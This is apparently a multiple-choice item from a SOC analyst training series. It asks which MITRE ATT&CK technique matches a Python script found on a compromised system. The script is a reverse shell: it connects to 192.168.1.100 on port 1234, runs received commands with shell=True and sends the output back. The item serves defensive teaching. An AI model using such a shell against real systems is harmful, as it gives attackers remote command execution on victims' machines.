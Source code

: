 # **Challenge 1.8.3: MITRE ATT&CK Framework (Basics)**

---

### **description:**

🔍 You are a Level 1 SOC Analyst and have been asked to analyze a suspicious script found on a compromised system. The script appears to be used for command and control communication:

---
```plaintext
import socket

host = "192.168.1.100"
port = 1234

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))

while True:
    command = s.recv(1024).decode("utf-8")
    if command == "quit":
        break
    else:
        output = subprocess.check_output(command, shell=True)
        s.send(output)

s.close()
```
🤔 Question:

Identify the MITRE ATT&CK technique most likely associated with this script.

🔘 ```A. T1043 - Commonly Used Port```

🔘 ```B. T1027 - Obfuscated Files or Information```

🔘 ```C. T1071 - Application Layer Protocol```

🔘 ```D. T1105 - Ingress Tool Transfer```

💡 Hint: Analyze the script's behavior and the method of communication to identify the MITRE ATT&CK technique.

🚀 Ready to answer? Go on and make your choice!